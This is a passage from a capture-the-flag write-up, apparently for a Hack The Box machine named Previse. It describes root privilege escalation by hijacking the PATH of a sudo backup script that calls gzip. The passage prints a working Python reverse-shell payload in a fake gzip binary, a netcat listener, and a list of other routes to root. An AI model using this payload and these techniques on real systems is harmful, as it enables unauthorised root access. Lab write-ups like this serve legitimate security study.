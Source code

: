     # I know I shouldnt run this as root but I cant figure it out programmatically on my account
    # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

    gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
    gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

Obviously we could just retrive the flag by putting `cp /root/root.txt /tmp && chmod 777 /tmp/*`
in our `gzip` file but a `root` shell is better.

We have a few ways to get a root shell with our command injection:

* Add a root (id 0) user to `/etc/passwd` with a password of our choice (see [armageddon](/2021/07/htb-armageddon.html))
* surcharge our `sudo` permissions  (see [bountyhunter](https://maggick.fr/2021/12/htb-bountyhunter.html))
* Add an ssh key to `root`
* run a reverse shell

We will use the latest one here and get a reverse shell as `root` allowing to grab
the last flag.

    :::text
    m4lwhere@previse:~$ export PATH=./:$PATH
    m4lwhere@previse:~$ vim gzip
    m4lwhere@previse:~$ cat gzip
    python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.52",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
    m4lwhere@previse:~$ chmod +x gzip
    m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh

    └─$ nc -l -p 4242
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    d465e7ac787731bbd7de2f69444407e3


# Wrapping up

An easy box really recommended for beginners as their is only two classical
vulnerabilities here.

